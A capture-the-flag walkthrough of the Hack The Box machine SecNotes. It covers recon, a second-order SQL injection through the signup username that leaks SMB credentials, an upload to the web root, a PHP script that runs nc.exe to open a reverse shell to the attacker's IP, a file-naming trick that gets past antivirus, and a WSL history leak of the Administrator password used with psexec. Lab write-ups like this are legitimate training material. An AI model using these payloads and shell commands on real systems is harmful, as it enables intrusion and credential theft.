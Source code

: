 # SecNotes [HTB](https://app.hackthebox.com/machines/SecNotes)
![secnotes-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/SecNotes/img/secnotes-01.png)

## Recon

Lets scan the target with `nmap`:

`nmap -sC -sV -p- -A 10.129.102.215 -oN nmap.result`

![nmap-res-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/SecNotes/img/nmap-res-02.png)

We have the following:

+ An IIS web server on ports 80 and 8808.
+ An SMB server on port 445.


We can see the server on port 80 is a login page as the requested resource was `login.php`.
We should take a look into it and see if we can break it, but maybe we can find credentials 
in the SMB first, perhaps its misconfigured. 


### SMB 445


Lets try gathering user inforamtion with a null session using `crackmapexec`.

`crackmapexec smb 10.129.102.215 -u '' -p '' --users`

![crackmapexec-null-fail-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/SecNotes/img/crackmapexec-null-fail-03.png)


The target seems to be running Windows 10, null sessions are not allowed though. We wont get in
without credetials. Lets try the IPC$ share: 

`smbclient -U '%' -N \\\\10.129.102.215\\IPC$`


![smbclient-null-fail-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/SecNotes/img/smbclient-null-fail-04.png)


Seems like the SMB is not the way forward at the moment. Lets take a look at the IIS server. 



### IIS 80 


Lets start by adding `secnotes.htb` to our `/etc/hosts` file:

![hosts-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/SecNotes/img/hosts-05.png)


Lets open our browser and navigate towards `http://secnotes.htb/`:

![login-form-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/SecNotes/img/login%3Dform-06.png)


We are prompted for credentials, we also have a signup form. Lets try a few diffrent payloads for the login page. Maybe default credentials like `admin:admin`?, simple SQLi payloads like `' OR 1=1;--`: 

![login-fail-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/SecNotes/img/login-fail-07.png)


Maybe there is hidden content somewhere, lets try directory busting:

`ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-2.3
-medium.txt:FUZZ -u http://http://secnotes.htb/FUZZ`

![ffuf-fail-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/SecNotes/img/ffuf-fail-08.png)


This yielded nothing. lets try subdomain enumeration? 

`wfuzz -c -f sub-fighter -Z -w /usr/share/seclists/SecLists-master/Discovery/DNS/subdomains-top1million-5000.txt -u 'http://secnotes.htb' -H 'Host: FUZZ.secnotes.htb' --hw 0`

![wfuzz-fail-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/SecNotes/img/wfuzz-fail-09.png)


We have zero leads at the moment. Lets create an account and see where this leads us.

![create-account-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/SecNotes/img/create-account-10.png)


We get redirected to a home page: 

![home-page-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/SecNotes/img/home-page-11.png)


I think the message at the top is a hint towards an indirect object reference vulnerability.
We also get a possible username on the machine in `tyler`.


Lets add a note:

![add-note-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/SecNotes/img/add-note-12.png)

 
You are presented with the note in our home page, and we have a button to delete the note:

![del-note-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/SecNotes/img/del-note-13.png)


It's a link to `/home.php?action=delete&id=11"`, we can see this more clearly in Burp:

![burp-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/SecNotes/img/burp-14.png)


But the `action` parameter is for `delete`, and we want to see other user's notes, 
not delete them. 

I've tried to hunt down a an IDOR vulenrability with diffrent arguments 
to both URL parameters, we either get a `200` or `302` repsonse with no meaningful progreess. 

I've created another account, trying to play around with the other user's notes, but that 
didnt lead anywhere. 

Then i decided to look for SQLi injection in the login form, i used a few manual payloads, 
as well as `sqlmap`, but that failed. 

Then i noticed that, the username we give when signing up, is displayed on our home page
quite frequatnly, and it seems that the target is using some sort of database to load these 
notes from based on their ID. So maybe the target is using our username to load our notes 
when we login. 

What if we create an account with an SQL statement as the username to load all notes in the 
database? for example `' OR 1 OR'`:

![malicios-login-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/SecNotes/img/malicios-login-15.png)


Now when we login we can see all the notes in the database: 

![all-notes-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/SecNotes/img/all-notes-16.png)


Looks like credetials for an SMB share. Lets try them out:

![smb-conn-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/SecNotes/img/smb-conn-17.png)


It looks like the root of the IIS server on port 8808, Can we write files to this share? 

![upload-test-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/SecNotes/img/upload-test-18.png)


Yes we can. Next logical step is to upload a reverse shell script. At first i tried `.aspx`,
but this failed with a `404`. So i tried PHP instead which did work, but i get disconnected 
every time after a few seconds, probably an AV. It also removes whatever we upload to the SMB.


After playing around with a few different reverse shell strategies, I've noticed that if
we name our files as `iisstart`, they wont get deleted regardless of the extension. 
Ive also noteiced that only `php` scripts properly execute from the URL. 

What we can do, is upload a Windows version of `nc`, create a PHP script that executes the `nc`
and connect to our attack machine. Maybe if the reverse shell comes from an `.exe` file the AV
wont crash it. 

The `nc.exe` on Kali is at `/usr/share/windows-resources/binaries/nc.exe`. 

I will rename it to `iisstart.exe` and put it on the SMB share:

![upload-nc-19](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/SecNotes/img/upload-nc-19.png)


Now we need a `iisstart.php` script we can trigger via the URL that will execute the `nc`.

```php
<?php
system('iisstart.exe -e cmd.exe 10.10.14.68 9001')
?>
```


Put this on the SMB also: 

![upload-php-20](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/SecNotes/img/upload-php-20.png)


Start the listener `nc -lnvp 9001`. 

Navigate to `http://secnotes.htb:8808/iisstart.php`

And get a shell:

![shell-21](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/SecNotes/img/shell-21.png)



## Privilege Escalation

If we take a look at tyler's home directroy, we can see a `bash.lnk`:

![home-dir-22](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/SecNotes/img/home-dir-22.png)


We might have `wsl` on this machine. This is important because with root privileges `wsl` allows
users to create a bind shell on any port (no elevation needed).


Lets find the `bash` binary on the system:

`where /R c:\windows bash.exe`


![bash-location-23](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/SecNotes/img/bash-location-23.png)


Lets execute it, get into a shell, and use `python -c 'import pty; pty.spawn("/bin/sh")'` to 
spwan a TTY shell:

![bash-tty-24](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/SecNotes/img/bash-tty-24.png)



If we simply run `history` to try and snatch quick wins: 

![history-25](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/SecNotes/img/history-25.png)


Looks like the Administrator's password. Lets try `psexec`:

`impacket-psexec administrator:'u6!4ZwgwOM#^OBf#Nwnh'@10.129.189.209`


![root-25](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/SecNotes/img/root-25.png)
